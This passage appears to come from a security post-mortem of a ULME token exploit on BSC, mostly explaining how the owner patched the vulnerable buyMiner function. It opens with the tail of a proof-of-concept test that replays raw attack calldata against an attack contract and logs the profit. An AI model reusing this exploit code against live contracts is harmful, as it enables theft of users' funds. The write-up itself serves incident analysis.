000000a5b63f7b40a5cc5ee6b9db7cef2415699627ee890000000000000000000000003dd624ced432ddc32fa0afdae855b76aa143164400000000000000000000000017f217fdeff7ee4a81a4b2f42c695edc2080695700000000000000000000000041819f36878d15a776225928cd52dc56accfd55300000000000000000000000061ca76703c5af052c9b0acc2bab0276875ddd3280000000000000000000000002956bcc87450b424c7305c4c6cf771196c23a52e00000000000000000000000003be05224803c89f3b8c806d887fd84a20d16e5c0000000000000000000000003c97320bf030c2c120fdce19023a571f3fbb6184000000000000000000000000c52021150ca5c32253220be328ddc05f86d3a6190000000000000000000000006d7aaa35c4b2dbd6f1e979e04884aee1b4fbb4070000000000000000000000007c80162197607312ec99d7c9e34720b3572d6d1600000000000000000000000015d92c909826017ff0184eea3e38c36489517a7c000000000000000000000000c07fa7a1f14a374d169dc593261843b4a6d9c1c30000000000000000000000004b415f48fa70a9a0050f6380e8437902609738080000000000000000000000009ceeeb927b85d4bd3b4e282c17eb186bcdc4dd150000000000000000000000000eb76daf60bdf637fc207bfb545b546d5ee208b100000000000000000000000096d7f1660e708eddf2b6f655adb61686b59bc190000000000000000000000000dceb637e38dbae685222eef6635095aaaec6549600000000000000000000000036083aac533353317c24bd53227dbf29ed9f384c00000000000000000000000094913f31fbafcb0ae6e5efa4c18e3ee301097eab000000000000000000000000188c50f43f9fa0026baaa7d8cf83c358311f05000000000000000000000000003d8dcc70777643612564d84176f769a1417987a500000000000000000000000000273ceee956543c801429a886cd0e1a79f5d8ca000000000000000000000000c43c5f785d06b582e3e710dc0156267fd135c6020000000000000000000000000406aefd83f20700d31a49f3d6fdbf52e8f7d0ef000000000000000000000000bed8c7433de90d349f96c6ae82d4eb4482aa6bf7000000000000000000000000de436f7742ce08f843f8d84e7998e0b7e4b73101000000000000000000000000d38c6e26aa4888de59c2eaad6138b0b66abbf21d000000000000000000000000c0dfb3219f0c72e902544a080ba0086da53f9599000000000000000000000000faad61bd6b509145c2988b03529ff21f3c9970b20000000000000000000000009f9beef87cfe141868e21eacbddb48df6c54c2f20000000000000000000000006614e2e86b4646793714b1fa535fc5875bb446d50000000000000000000000007efe3780b1b0cde8f300443fbb4c12a73904a948000000000000000000000000ad813b95a27233e7abd92c62bba87f59ca8f933900000000000000000000000013f33854ce08e07d20f5c0b16884267dde21a50100000000000000000000000059ebcde7ec542b5198095917987755727725fd1d000000000000000000000000e5a5b86119bd9fd4df5478abe1d3d9f46bf3ba5f000000000000000000000000c2724ed2b629290787eb4a91f00aafe58f262025000000000000000000000000dfa225eb03f9cc2514361a044edda777ea51b9ad00000000000000000000000085d981e3cddb402f9ae96948900971102ee5d6b5000000000000000000000000b0ac3a88bfc919ca189f7d4aba8e2f191b37a65b0000000000000000000000001a906a9a385132d6b1a62bb8547fd20c38dd79bb0000000000000000000000009d36c7c400e033aeac391b24f47339d7cb7bc0330000000000000000000000005b19c1f57b227c67bef1e77b1b6796ef22aee21b000000000000000000000000bfd0785a924c3547544c95913dac0b119865df9e000000000000000000000000f003e6430fbc1194ffa3419629a389b7c113f083000000000000000000000000fa30cd705ee0908e2dac4c19575f824ded99818e000000000000000000000000e27027b827fe2fbcfcb56269d4463881aa6b8955000000000000000000000000eddd7179e461f42149104dcb87f3b5b657a05399000000000000000000000000980fcdb646c674ff9b6621902acb8a40129740930000000000000000000000002ebc77934935980357a894577c2cc7107574f971000000000000000000000000798435de8fa75993bfc9ad84465d7f812507b6040000000000000000000000001be117f424e9e6f845f7b07c072c1d67f114f885000000000000000000000000434e921bdfe74605bd2aabc2f6389ddba2d37aca000000000000000000000000afacac64426d1ce0512363338066cc8cabb3aea20000000000000000000000002693e0a37ea6e669ab43df6ee68b453f6d6f3ebd00000000000000000000000077aee2aac9881f4a4c347eb94ded088ad49c574d000000000000000000000000951f4785a2a61fe8934393e0ff6513d6946d8d970000000000000000000000002051ce514801167545e74b5dd2a8cf5034c6b17b000000000000000000000000c2ee820756d4074d887d762fd8f70c4fc47ab47f00000000000000000000000000000000000000000000000000000000000000412205f5d1bca99609787803dd8694d8acf0bcb45f62c338300ad96faaca07491403e7612cf8cb1a59e0785f9d3cf2f5fc1e422c5f1afa9a908adea1e47f70fe481b00000000000000000000000000000000000000000000000000000000000000";
    (bool success,) = attackContract.call(data);
    require(success, "frontrun failed");
    emit log_named_decimal_uint("Totol profit", usdt.balanceOf(attacker) - balance0, usdt.decimals());
    vm.stopPrank();
}
```

However, using the above code for testing, it can still be easily detected as profitable by bots.

After the AttackTx, subsequent [another call](https://bscscan.com/tx/0x53f9a6246549a334475353cd235cf5934f8f9f0bd84f30788d0b8afa2cc8ba6a) to the attack contract were also made, but it resulted in reverts due to signature verification failures, indicating an attempt to replay the attack (though it was too late, as the vulnerability had already been "fixed").



### Patch

The token contract is not a proxy contract, but it appears that people are still trading it to this day, indicating that the vulnerability has likely been fixed. However, it's clear that the `buyMiner` function cannot be altered and can still be called by anyone.

Attempting to call the `buyMiner` function after the most recent blockchain fork results in a revert.



The original `transferFrom` should have transferred USDT from the specified address to the ULME contract. However, it is evident that the USDT contract address has been changed. Checking this [0xE2Df](https://bscscan.com/address/0xE2DfbD558D8F5559CAe0886Ad14009589D6F0Bc6) address reveals that the contract was created by the owner approximately 4 hours after the attack occurred.



Upon decompilation, it is evident that this contract does not provide the `transferFrom` function. Consequently, calling the `buyMiner` function will result in a revert, rendering the vulnerability function unusable.



The [patch transaction](https://bscscan.com/tx/0xbc4847851dcddb0e38f830e2edc423b176b4c1270dc2400d0385566676aa1424) can be seen below.



